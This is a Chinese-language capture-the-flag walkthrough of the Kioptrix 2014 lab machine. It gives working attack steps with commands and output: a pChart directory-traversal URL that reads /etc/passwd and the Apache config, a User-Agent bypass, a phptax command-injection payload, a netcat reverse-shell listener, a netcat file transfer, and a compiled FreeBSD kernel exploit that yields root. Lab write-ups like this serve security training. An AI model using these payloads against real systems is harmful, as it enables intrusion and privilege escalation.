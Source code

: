 无法获取ip，vmware里删除原来的网卡，再重新添加 [CTF靶场系列-Kioptrix: 2014 (#5) - FreeBuf网络安全行业门户](https://www.freebuf.com/column/211565.html)

# 信息搜集

1、端口扫描

```bash
PORT     STATE  SERVICE VERSION
22/tcp   closed ssh
80/tcp   open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
|_http-title: Site doesn't have a title (text/html).
8080/tcp open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
MAC Address: 00:0C:29:BF:F7:2C (VMware)
Device type: general purpose
Running: FreeBSD 7.X|8.X|9.X
OS CPE: cpe:/o:freebsd:freebsd:7 cpe:/o:freebsd:freebsd:8 cpe:/o:freebsd:freebsd:9
OS details: FreeBSD 7.0-RELEASE - 9.0-RELEASE
Network Distance: 1 hop
```

2、80端口源码发现web上下文  

```http
http://192.168.0.102/pChart2.1.3/examples/index.php
```

<img src=".\图片\Snipaste_2023-06-19_17-04-47.png" alt="Snipaste_2023-06-19_17-04-47" style="zoom:80%;" />

3、8080端口访问403

```
Forbidden
You don't have permission to access / on this server.
```

# web打点

1、搜索 `pChart2.1.3` cms 已知漏洞再利用

```bash
┌──(root💀kali)-[~/kioptrix2014]
└─# searchsploit pChart     
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
pChart 2.1.3 - Multiple Vulnerabilities                                                                                     | php/webapps/31173.txt
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                                              
┌──(root💀kali)-[~/kioptrix2014]
└─# searchsploit -m 31173
  Exploit: pChart 2.1.3 - Multiple Vulnerabilities
      URL: https://www.exploit-db.com/exploits/31173
     Path: /usr/share/exploitdb/exploits/php/webapps/31173.txt
    Codes: OSVDB-102596, OSVDB-102595
 Verified: True
File Type: HTML document, ASCII text
Copied to: /root/kioptrix2014/31173.txt
```

好利用的漏洞目录遍历

```bash
┌──(root💀kali)-[~/kioptrix2014]
└─# cat 31173.txt 
[1] Directory Traversal:
"hxxp://localhost/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd"
The traversal is executed with the web server's privilege and leads to
sensitive file disclosure (passwd, siteconf.inc.php or similar),
access to source codes, hardcoded passwords or other high impact
consequences, depending on the web server's configuration.
This problem may exists in the production code if the example code was
copied into the production environment.
```

2、读取关键文件

密码文件

```http
http://192.168.0.102/pChart2.1.3/examples/index.php?Action=View&Script=/../../../../etc/passwd
```

unix apache 的配置文件

<img src=".\图片\Snipaste_2023-06-19_17-16-17.png" alt="Snipaste_2023-06-19_17-16-17" style="zoom:50%;" />

```http
http://192.168.0.102/pChart2.1.3/examples/index.php?Action=View&Script=/usr/local/etc/apache22/httpd.conf
```

发现 8080 端口好像只允许特定 UA 头访问 `Mozilla/4.0 Mozilla4_browser`

```conf
SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser
<VirtualHost *:8080>
    DocumentRoot /usr/local/www/apache22/data2

<Directory "/usr/local/www/apache22/data2">
    Options Indexes FollowSymLinks
    AllowOverride All
    Order allow,deny
    Allow from env=Mozilla4_browser
</Directory>
```

3、修改 UA 头再访问 8080 端口

<img src=".\图片\Snipaste_2023-06-19_17-22-21.png" alt="Snipaste_2023-06-19_17-22-21" style="zoom:67%;" />

<img src=".\图片\Snipaste_2023-06-19_17-24-45.png" alt="Snipaste_2023-06-19_17-24-45" style="zoom:50%;" />

4、搜索 `phptax` 漏洞利用，另外注意修改 UA 头

```bash
└─# searchsploit phptax  
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
PhpTax - 'pfilez' Execution Remote Code Injection (Metasploit)                                                              | php/webapps/21833.rb
PhpTax 0.8 - File Manipulation 'newvalue' / Remote Code Execution                                                           | php/webapps/25849.txt
phptax 0.8 - Remote Code Execution                                                                                          | php/webapps/21665.txt
```

```http
http://192.168.0.102:8080/phptax/drawimage.php?pfilez=xxx; uname -a>/tmp/1&pdf=make
```

结合之前的文件读取看回显

```http
http://192.168.0.102/pChart2.1.3/examples/index.php?Action=View&Script=/tmp/1
```

<img src=".\图片\Snipaste_2023-06-19_17-38-13.png" alt="Snipaste_2023-06-19_17-38-13" style="zoom:67%;" />

5、反弹shell

<img src=".\图片\Snipaste_2023-06-19_17-56-31.png" alt="Snipaste_2023-06-19_17-56-31" style="zoom:50%;" />

```bash
┌──(root💀kali)-[~/kioptrix2014]
└─# nc -lvvp 6666                
listening on [any] 6666 ...
connect to [192.168.0.103] from 192.168.0.102 [192.168.0.102] 40584
sh: can't access tty; job control turned off
$ whoami
www
```

# 提权

内核漏洞提权

1、搜索操作系统版本

```bash
$ uname -a
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
```

2、寻找对应漏洞

```bash
┌──(root💀kali)-[~/kioptrix2014]
└─# searchsploit FreeBSD 9.0
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
FreeBSD 9.0 - Intel SYSRET Kernel Privilege Escalation                                                                      | freebsd/local/28718.c
FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation                                                                | freebsd/local/26368.c
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                                              
┌──(root💀kali)-[~/kioptrix2014]
└─# searchsploit -m 26368      
  Exploit: FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/26368
     Path: /usr/share/exploitdb/exploits/freebsd/local/26368.c
    Codes: CVE-2013-2171, OSVDB-94414
 Verified: True
File Type: C source, ASCII text
Copied to: /root/kioptrix2014/26368.c
```

3、kali nc 传输文件到 靶机

kali执行：

```bash
└─# nc -lvp 2233 < 28718.c 
listening on [any] 2233 ...
connect to [192.168.0.103] from 192.168.0.102 [192.168.0.102] 48339
```

靶机执行：

```bash
$ nc 192.168.0.103 2233 > 28718.c
```

4、编译运行，即可提权

```bash
$ gcc 26368.c
26368.c:89:2: warning: no newline at end of file
$ ls
1
26368.c
28718.c
a.out
a.out.core
aprBFUL5x
aprIDfyWR
aprOFwekh
aprcRmk0i
mysql.sock
vmware-fonts0
$ ./a.out
id
uid=0(root) gid=0(wheel) egid=80(www) groups=80(www)
```


